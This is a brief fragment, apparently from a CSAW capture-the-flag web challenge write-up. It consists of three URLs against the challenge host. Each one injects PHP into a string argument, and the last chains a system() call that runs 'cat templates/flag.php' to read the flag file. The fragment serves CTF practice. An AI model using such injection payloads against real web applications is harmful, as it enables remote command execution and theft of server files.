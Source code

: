 http://web.chal.csaw.io:8000/?page=home' , '--') === false; //
http://web.chal.csaw.io:8000/?page=home' , '--') === true; //
view-source:http://web.chal.csaw.io:8000/?page=home' , '--') === false or die(system("cat templates/flag.php"));  //
